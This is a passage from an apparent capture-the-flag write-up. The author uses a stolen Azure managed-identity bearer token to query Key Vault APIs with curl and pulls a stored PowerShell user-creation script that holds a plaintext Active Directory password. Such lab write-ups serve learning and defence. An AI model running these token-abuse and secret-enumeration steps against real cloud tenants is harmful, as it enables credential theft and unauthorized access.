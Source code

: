 Looks like I need a new access token, with the scope for vault.azure.net instead of management.azure.com.

Did that, and did the same query using my new token:

```
alabaster@ssh-server-vm:~$ curl --no-progress-meter -X GET -H "Authorization: Bearer $vault_access_token" -H "Content-Type: application/json" https://northpole-ssh-certs-kv.vault.azure.net/secrets?api-version=7.4 | jq
{
  "error": {
    "code": "Forbidden",
    "message": "The user, group or application 'appid=b84e06d3-aba1-4bcc-9626-2e0d76cba2ce;oid=600a3bc8-7e2c-44e5-8a27-18c3eb963060;iss=https://sts.windows.net/90a38eda-4006-4dd5-924c-6ca55cacc14d/' does not have secrets list permission on key vault 'northpole-ssh-certs-kv;location=eastus'. For help resolving this issue, please see https://go.microsoft.com/fwlink/?linkid=2125287",
    "innererror": {
      "code": "AccessDenied"
    }
  }
}
```

Maybe the identity I’m using in my bearer header doesn’t match up with the object ID that apparently has get/secrets. Decoding hte B64 for my tokens gives me the OIDs:

```
Access_token:          600a3bc8-7e2c-44e5-8a27-18c3eb963060
Vault_access_token: 600a3bc8-7e2c-44e5-8a27-18c3eb963060
```
Or I could have just read the error.

I need an OID of `0bc7ae9d-292d-4742-8830-68d12469d759` for all permissions on keys, secrets, certs, and storage.

I need an OID of `1b202351-8c85-46f1-81f8-5528e92eb7ce` for get/secrets permissions.

How do I pivot my OID? Guess I need a new access key again, with those permissions. But the IMDS curl command I used before doesn’t really support any more arguments. Missing something here. 

Discord nudge helped me. I don’t have secret/list permissions to that SSH cert keyvault, but I do have that permission to the IT keyvault (the one I was looking at originally…).

```
alabaster@ssh-server-vm:~$ curl --no-progress-meter -X GET -H "Authorization: Bearer $vault_access_token" -H "Content-Type: application/json" https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/?api-version=7.4 | jq
{
  "value": "Import-Module ActiveDirectory; $UserName = \"elfy\"; $UserDomain = \"northpole.local\"; $UserUPN = \"$UserName@$UserDomain\"; $Password = ConvertTo-SecureString "J4`ufC49/J4766" -AsPlainText -Force; $DCIP = \"10.0.0.53\"; New-ADUser -UserPrincipalName $UserUPN -Name $UserName -GivenName $UserName -Surname \"\" -Enabled $true -AccountPassword $Password -Server $DCIP -PassThru",
  "id": "https://northpole-it-kv.vault.azure.net/secrets/tmpAddUserScript/ec4db66008024699b19df44f5272248d",
  "attributes": {
    "enabled": true,
    "created": 1699564823,
    "updated": 1699564823,
    "recoveryLevel": "Recoverable+Purgeable",
    "recoverableDays": 90
  },
  "tags": {}
}
```
